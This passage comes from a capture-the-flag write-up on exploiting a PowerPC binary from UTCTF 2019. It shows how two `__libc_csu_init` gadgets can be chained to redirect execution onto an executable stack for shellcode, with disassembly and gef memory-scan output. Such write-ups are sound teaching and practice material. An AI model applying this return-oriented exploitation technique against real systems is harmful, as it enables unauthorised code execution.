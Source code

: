 `GNU_STACK ... RWE`. Perfect! We have an executable stack. Therefore, we can write PowerPC shellcode on the stack to pop a shell, then find a gadget that allows us to jump to the stack. 

However, finding such a gadget turned out to be harder than I thought, as I could not find gadgets that moved the value of `r1` eventually into the link register `LR`. This makes sense since there would basically never be a case where a normal binary needs to jump into the stack.

## When in doubt, csu_init
I found the solution to my problem in a familiar gadget that I love to use in x86. The beloved `__libc_csu_init` gadget! Luckily for us, this PowerPC binary also had the `__libc_csu_init` gadget. The key to using this gadget is the following instructions.
``` 
        100019a0 09 00 3e e9     ldu        r9,0x8(r30)
		        			  ...
        100019b8 a6 03 29 7d     mtspr      CTR,r9
        					  ...
        100019c0 21 04 80 4e     bctrl
```
The `ldu` instruction will dereference `r30+0x8` and put the qword into `r9`. In x86, this is equivalent to `mov r9, qword ptr[r30+0x8]`. The value of `r9` is then loaded into `CTR`, and `bctrl` will jump to the address in `CTR`. If we control the value of `r30` this gadget can be really powerful! Luckily for us, `__libc_csu_init` handles that too.
```
        100019d4 10 00 01 e8     ld         r0,local_res10(r1)
        					  ...
        100019e8 f0 ff c1 eb     ld         r30,local_10(r1)
							  ...
        100019f0 a6 03 08 7c     mtspr      LR,r0
        100019f4 20 00 80 4e     blr
```
With this other gadget, we are able to control our return address (so it's chainable), and we also set the value of `r30` from a value on the stack.

With these two gadgets chained together, we can jump to the stack if we have a known address that contains a pointer to the stack. This would be the `.bss` section of our binary. The section is always mapped to the same address since PIE is not enabled, so we just need to find where the pointers are. I did this using a [feature][scan] added to the `gef` command `scan` by my friend **daniellimws**.
```
gef➤  vmmap
Start              End                Offset             Perm Path
... (this is the .bss)
0x00000000100ce000 0x00000000100d2000 0x00000000000be000 rw- /home/lord_idiot/CTF/utctf19/PPower_enCryption/ppc
0x00000000100d2000 0x00000000100f6000 0x0000000000000000 rw- 
... (this is the stack)
0x0000004000001000 0x0000004000801000 0x0000000000000000 rw- 
...

gef➤  scan 0x00000000100d2000-0x00000000100f6000 0x00000040007ff000-0x0000004000800000
[+] Searching for addresses in '0x00000000100d2000-0x00000000100f6000' that point to '0x00000040007ff000-0x0000004000800000'
 0x00000000100d2498│+0x0498: 0x00000040007ffb78  →  0x00000040007fff44  →  "XDG_SEAT=seat0"
 0x00000000100d33f0│+0x13f0: 0x00000040007ffdc8  →  0x0000000000000016
 0x00000000100d3490│+0x1490: 0x00000040007ffb68  →  0x00000040007fff3e  →  0x4458006370702f2e ("./ppc"?)
 0x00000000100d4100│+0x2100: 0x00000040007ff7e0  →  0x7822847c48006138 ("8a"?)
```
The final address `0x00000000100d4100` was the magic address, as the stack pointer it had (`0x00000040007ff7e0`) fell within the 1000 byte buffer overflow we had in the stack. So I just had to make sure that my shellcode ended up in this area.
